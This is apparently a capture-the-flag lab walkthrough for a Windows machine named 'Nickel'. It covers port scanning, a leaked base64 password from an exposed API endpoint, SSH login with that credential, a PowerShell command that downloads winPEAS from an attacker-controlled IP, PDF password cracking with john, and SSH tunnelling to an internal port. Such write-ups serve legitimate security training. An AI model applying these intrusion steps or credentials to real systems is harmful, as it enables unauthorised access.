

# Nickel

## Foothold

### Enumeration

```
Nmap scan report for 192.168.121.99
Host is up (0.019s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-18T20:30:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Not valid before: 2022-06-17T20:16:10
|_Not valid after:  2022-12-17T20:16:10
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-06-18T20:29:03+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)
```

Nmap shows 8089 and 33333 are http page.

Looking through 8089 page, it seems to send request to 33333 page.

If we visit 33333 page directly, it's `Invalid Token`

If we try to query the resource that we find in 8089,
for example, `http://192.168.121.99:33333/list-current-deployments`
then we get 

```html
<p>Cannot "GET" /list-current-deployments</P>
```

emmm.. Cannot "GET".

Therefore we send the payload to burpsuite and try to post it:

```
POST /list-current-deployments HTTP/1.1
Host: 192.168.121.99:33333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

test
```


We get not implemented.

I tried to wfuzz it and see if I can replace the data field of post so I can get more information.

```bash
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -d "FUZZ" --filter "chars!=22" http://192.168.121.99:33333/list-current-deployments
```

It didn't work.

### Break Through

But if we request another resource, `/list-running-procs`, it works.


We can see here we have a password passed through command line.

It seems to be base64 encoded. Decode it, and we get: `NowiseSloopTheory139`

We can login through ssh using the credential we found: `ariah:NowiseSloopTheory139`

Finally, we can find local.txt on the ariah's Desktop.


## Privilege Escalation

Upload winpeas using:

```ps1
(New-Object Net.WebClient).DownloadFile("http://192.168.49.121/winPEASx64.exe","C:\Users\ariah\Downloads\w.exe")
```

We find a pdf file in the `C:/ftp` folder, but it needs a password.

We crack it with john. First use `pdf2john` to generate hash, then use `john` and `rockyou` to crack it.

the password is `ariah4168`.


A `Temporary Command endpoint` exists on the server.


We also find that the 80 port is actually open. I suspect it's only accessable from internal network. That's why we didn't see it in the nmap scan.

Tunnel through using ssh:

```bash
ssh -N -L 0.0.0.0:80:192.168.121.99:80 ariah@192.168.121.99
```



We can easily grab the proof.txt file.


Time cost: 2 hours 30 minutes